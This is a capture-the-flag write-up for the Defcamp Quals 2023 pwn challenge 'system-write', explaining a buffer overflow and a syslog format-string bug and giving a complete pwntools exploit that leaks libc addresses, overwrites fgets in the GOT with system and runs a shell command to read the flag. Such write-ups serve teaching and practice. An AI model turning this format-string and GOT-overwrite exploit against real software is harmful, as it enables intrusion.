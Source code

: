 ```yaml
---
title: system-write
date: 2023-10-22T09:56:31+03:00
description: Writeup for system-write [Defcamp Quals 2023]
type: writeup
author: sunbather
tags:
  - pwn
draft: false
---
```


___

## Challenge Description

Wait what? We can write data, but where?

Flag format: CTF{sha256}

### Intuition

Checksec the binary to see what we have.

```
$ checksec syslog-write
LIBC_FILE=/lib/x86_64-linux-gnu/libc.so.6
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   49 Symbols	  No	0		4		syslog-write
```
We have PIE disabled and Partial RELRO. Partial RELRO might mean that we will overwrite GOT entries.

We decompile the binary and find numerous vulnerabilities. First a buffer overflow is present in the ``main`` function, when we read the "log level":
```c
	printf("Enter the log level (LOG_INFO, LOG_WARNING, LOG_ERR, etc.): ");
	__isoc99_scanf(" %[^\n]",local_222);
```
Sadly, we can't do much with it initially, as the function does not return. Every exit point is covered by ``exit()``.

Another vulnerability that is evident is the fact that our input gets passed directly to ``syslog``. What is great about this is that ``syslog`` uses a format string as its second argument. So we have a format string vulnerability.

```c
	printf("Enter the message to write to syslog: ");
	fgets(local_218,0x200,stdin);
	fgets(local_218,0x200,stdin);
	syslog((int)local_222,local_218);
	closelog();
```

### Solution

So first we obviously have to leak some data. We leak a whole lot of addresses from the stack by passing a bunch of ``"%x"`` to ``syslog``. We manually identify the return for the ``main`` function. We can make our lives easier by passing a bunch of "a" characters to the vulnerable buffer, to create a pattern of "a" characters leading up to the return address.

After leaking and checking in the debugger, we find out the return address for main leads to ``__libc_init_first``. We find the libc version using the [libc database](https://libc.blukat.me/) and we save some offsets to ``system`` from there. In the exploit we next calculate the address for ``system`` and use a classic arbitrary write primitive from the format string vulnerability. We overwrite the address of ``fgets``, found in GOT, two bytes at a time (to avoid long printing times). Now, our next input to fgets will get interpreted as a shell command. But how can we control it now that ``fgets`` is compromised? Easy, we can reuse the buffer overflow from the earlier ``scanf`` to overwrite it with a command. The exploit is below:

```py
#!/usr/bin/env python3

from pwn import *

is_remote = False
target = process("./syslog-write")
#target = remote("34.159.3.30", 31549) 

fgets_gotplt_addr = 0x00404048
fgets_gotplt_addr_next = 0x0040404a

if is_remote:
    system_offset = 0x27060 # from init_first
else:
    system_offset = 159856 # from init_first


# Leak a bunch of addresses
target.sendline(b"1")
target.sendline(b"a" * 0x222)
target.sendline(b"%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x")

if is_remote:
    target.sendline(b"2")
    print(target.recvuntil(b"syslog-write"))
    leak = list(reversed(target.recvline().split()))

    print(leak)
	# Find the return address using the "AAAA" pattern
    for i in range(len(leak)):
        if leak[i] == b"61616161":
            libc_init_first_leak = leak[i-1]
            print(libc_init_first_leak)
            libc_init_first_leak = int(libc_init_first_leak, 16)
            break

else:
	# get the addresses manually on local
	# I had some issues with reading the syslog
    libc_init_first_leak = input()

    print(libc_init_first_leak)
    libc_init_first_leak = int(libc_init_first_leak, 16)
    print(hex(libc_init_first_leak))

# Find system address
system_addr = p64(libc_init_first_leak + system_offset)
print(f"System addr: {hex(libc_init_first_leak + system_offset)}")

# Prepare the bytes to be written
x = int.from_bytes(system_addr[:2], byteorder='little')
y = int.from_bytes(system_addr[2:4], byteorder='little')

print(system_addr)

# You have to make sure the stack is correctly aligned
# and that the parameter access (%11$hn and %12$hn) leads to the correct addresses
# Use a debugger!
payload = "%{}c%11$hn%{}c%12$hnbbbbbbb".format(x, y-x).encode()
print(payload)

# Overwrite fgets with system
target.sendline(b"1")
target.sendline(p64(fgets_gotplt_addr) + p64(fgets_gotplt_addr_next)) # honestly don't remember if this really matters
target.sendline(payload + p64(fgets_gotplt_addr) + p64(fgets_gotplt_addr_next))

# run /bin/cat flag.txt
target.sendline(b"1")
target.sendline(b"A" * 10 + b"/bin/cat flag.txt") # overflow and win

target.interactive()
```

#### Flag

```CTF{61534936dc22499d88206f04c36ccda47290ad4656345033c6c88f06a86a2b92}```

